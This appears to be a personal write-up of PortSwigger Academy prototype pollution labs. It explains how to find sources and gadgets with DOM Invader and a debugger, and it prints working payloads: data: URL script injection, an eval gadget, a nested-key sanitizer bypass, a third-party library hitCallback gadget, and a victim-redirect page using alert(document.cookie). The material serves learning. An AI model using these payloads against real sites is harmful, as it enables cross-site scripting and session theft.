 # Prototype pollution

- https://portswigger.net/web-security/prototype-pollution
- https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance
- https://portswigger.net/web-security/prototype-pollution/client-side
- https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis
- https://portswigger.net/research/widespread-prototype-pollution-gadgets
- https://portswigger.net/web-security/prototype-pollution/server-side
- https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution

## DOM XSS via client-side prototype pollution

For learning purposes the lab was done using DOM Invader and by manual testing.

### DOM Invader

Turning on `DOM Invader` and setting `Attack Type` to `Prototype pollution` retrieves with two detected sources:
 - `__proto__[property]=value` in search
 - `constructor[prototype][property]=value` in search 

Testing the first finding we can notice that `Object.prototype` was polluted and contains arbitrary `testproperty` with value `DOM_INVADER_PP_POC`.

Now scanning for gadgets reviels one `script.src` sink and points to the code:

```
if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
}
```

Now clicking `Exploit` opens a new page with the url `/?search=nsteng9k1'"<>&__proto__[transport_url]=data:,alert(1)` performing XSS

Pollution probably happends in `deparam.js` script.

### Manual

By accessing url `/?__proto__[foo]=bar` we can now check whether pollution was successful, by running `console.log(Object.prototype)` and noticing new `foo` property with `bar` value.

Now in order to test for gadgets, we intercept all the requests in responses and for the script we want to test we add `debugger` statement at the beggining of the script. Now after loading the page, the script execution will pause. Running below code in the console will pollute `Object.prototype` and inform us of every access to its new arbitrary value:

```
Object.defineProperty(Object.prototype, 'transport_url', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```

From this we can read, at which line of code the value is accessed and notice it is being passed to `script.src`.

Now we can craft our own exploit: `?__proto__[transport_url]=data:,alert(1);`

NOTE: In `data:,alert(1);` payload `,` char is because of how this the script tag with data is defined. Usually we have comma separated configuration (type, encoding etc.) and the code

## DOM XSS via an alternative prototype pollution vector

Using `DOM Invader` we can quickly notice one source in search. Now as we scan for gadgets we notice that the value is being passes into `eval` in `searchLogger` function.


Now using dev tools debbuger pausing on `eval` function or the console we can figure out the working payload that solves the lab: `?__proto__.sequence=alert(1)+`.

The `+` sign is there because the code appends `1` at the end of the string, which normnally causes syntaxt error, but `+` sign bypasses this problem.

## Client-side prototype pollution via flawed sanitization

This time DOM Intruder did not find any sources, but be can notice loaded `deparamSanitised.js` script which uses `sanitizeKey` function defined as:

```
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Since `replaceAll` function is not called recursively, we can bypass the protection like this: `sanitizeKey("__pro__proto__to__")`

Now accessing `?__pro__proto__to__[foo]=bar` updates the prototype with `foo` property.

`DOM Invader` was able to scan for gadgets and revieled again `transport_url` param passed to `script.src` sink.

Now accessing `?__pro__proto__to__[transport_url]=data:,alert(1);` solves the lab.

## Client-side prototype pollution in third-party libraries

DOM Invader found prototype polution in hash, which tested manually is successful. Testing for gadgets finds one sink in minified js library `ga.js` at `hitCallback` parameter.

Accessing `#__proto__[hitCallback]=alert(1)` successfully triggers `alert` function, so in order to solve the lab we need to deliver to the victim the following page:

```
<script>
location = "https://0a5800d1033bc7ab81b3851200a90031.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>
```

We cannot use an iframe because of `X-Frame-Options`, but redirection is good enough.

## Client-side prototype pollution via browser APIs

`DOM Invader` found two sources in search and was able to determine a `script.src` sink to which `transport_url` param is passed.

This time the parram is defined using the code below, which unables us to modify the parameter with casual prototype pollution. The value of `transport_url` is set to `false`, and then made uncofigurable.

```
let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

`defineProperty` function accepts `descriptor` object as the third parameter, which defines this behaviour, but since the `value` param, defining default value, was not set, we can try to pollute it.

Accessing `?__proto__[value]=data:,alert(1)` pollutes the prototype with `value` key, which then is used in `defineProperty` function, causing the new value being set, which triggers XSS and solves the lab.

